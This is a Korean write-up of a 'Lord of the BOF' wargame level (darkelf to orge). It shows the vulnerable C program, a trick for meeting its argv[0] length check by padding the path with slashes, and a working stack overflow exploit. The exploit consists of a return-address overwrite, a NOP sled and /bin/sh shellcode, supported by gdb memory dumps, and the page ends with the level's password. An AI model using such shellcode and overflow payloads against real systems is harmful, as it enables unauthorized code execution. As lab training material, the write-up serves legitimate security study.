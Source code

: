```yaml
---
title: "BOF - Lv.7 darkelf"
excerpt: "Lv.7 darkelf"
toc: true
toc_sticky: true
categories:
  - BOF
tags:
  - stack buffer overflow
---
```


## 1. Source Code
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```
## 2. Vulnerability
wolfman과 다른점은 코드를 보면 argv[0]의 길이가 77이어야 한다. argv[0]은 파일경로임. argv[0]을 출력해보려고 file 실행파일을 만들어서 보니 argv[0]: ./file 이라고 나옴.  
그런데 Linux에서는 .////////file 이렇게 해도 실행이 되고 argv[0]도 그럼 .////////file 이렇게 나올거임. 이를 이용해서 문제를 해결.  
  
[+] 다른 풀이법은 pwd는 파일경로를 보여주는 명령어로 보면 /home/darkelf 이렇게 나옴. 여기서 폴더를 만들어서 옮겨주면 경로는 /home/darkelf/폴더 이렇게 될꺼임.  
즉, argv[0]은 /home/darkelf/폴더명/orge **(.은 현재폴더라는 뜻이라서 이때는 안씀)** 이렇게 되므로 폴더명 길이는 77-19(/home/darkelf/(14) + /orge(5)) = 58이 되게 만들어서 풀면 됨.  

## 3. Solution
.+'/'*72+orge(4)=77 -> .////////////////////////////////////////////////////////////////////////orge  
우선 test파일을 만들어서 argv[2] 주소를 보면 0xbffffb24부터 값이 들어가 있음. 리턴주소로 0xbffffb30으로 하겠음.
```
.////////////////////////////////////////////////////////////////////////test `python -c 'print "A"*44+"BBB\xbf"'` `python -c 'print "C"*100'`
0xbffffaf0:     0x00747365      0x41414141      0x41414141      0x41414141
0xbffffb00:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffb10:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffb20:     0xbf424242      0x43434300      0x43434343      0x43434343
0xbffffb30:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffb40:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffb50:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffb60:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffb70:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffb80:     0x43434343      0x43434343      0x00000043      0x00000000
0xbffffb90:     0x00000000      0x00000000      0x00000000      0x00000000
``` 
Segmentation fault (core dump)가 되서 다시 확인해보니 리턴주소가 달라져서 다시 설정함. 0xbffffb3c
```
.////////////////////////////////////////////////////////////////////////test `python -c 'print "A"*44+"\x80\xfb\xff\xbf"'` `python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
0xbffffacc:     0x2f2f2f2f      0x2f2f2f2f      0x65742f2f      0x41007473
0xbffffadc:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffaec:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffafc:     0x41414141      0x41414141      0x80414141      0x00bffffb
0xbffffb0c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb1c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb2c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb3c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb4c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb5c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb6c:     0x90909090      0x6850c031      0x68732f2f      0x69622f68
```
바꾼 주소로 해보니 잘 되서 실제파일에도 공격해서 성공.
```
.////////////////////////////////////////////////////////////////////////orge `python -c 'print "A"*44+"\x3c\xfb\xff\xbf"'` `python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<▒▒▒
bash$ my-pass
euid = 507
timewalker
```
my-pass : timewalker